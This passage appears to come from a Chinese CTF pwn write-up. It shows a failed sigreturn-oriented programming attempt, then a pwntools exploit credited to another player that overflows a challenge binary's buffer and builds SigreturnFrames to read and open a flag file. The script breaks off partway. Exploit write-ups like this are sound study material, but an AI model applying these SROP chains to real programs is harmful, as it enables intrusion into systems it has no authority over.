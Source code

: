 ```python

read_frame=SigreturnFrame()
read_frame.rax=constants.SYS_read
read_frame.rdi=0 #标准输入
read_frame.rsi=bss
read_frame.rdx=0x200 #第一次read长度
read_frame.rsp=bss+8 #open
read_frame.rip=syscall

payload=b'a'*0x28
payload+=sigreturn+bytes(read_frame)
link.send(payload)

gdb.attach(link)
pause()

sleep(1)
link.send(bss_stack)

link.interactive()
```

遇到了这个报错，后面 clby 师傅说这个思路是正确的，

![](/images/023dac8dcf2b26a48d80da983edcaf1e.png)

clby 师傅给的 exp：

```python
from pwn import *
e = ELF('./vuln')
# r = remote('172.21.78.37', 49320)
r = process('./vuln')
# libc = elf.libc
context.log_level = 'debug'
context.arch = 'amd64'

syscall = 0x40129D
sigretrun = 0x401296
main = 0x4012A3
bss = e.bss()+0x100
flag_str = bss
store_flag = bss+0x500

gdb.attach(r, 'b *0x40129d')
pause()

frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = bss
frame.rdx = 0x400
frame.rip = syscall
frame.rbp = 0x404168
frame.rsp = 0x404168

flag_pay = b'flag.txt'.ljust(  # 这边传入flag是没有意义的，真正写入bss段的flag是下面那个payload
    0x28, b'a')+p64(sigretrun)+bytes(frame)
r.sendline(flag_pay)
sleep(0.2)

# rax = 2,open(flag,0,0) to get flag
# 0 represents READONLY
openflag = SigreturnFrame()
```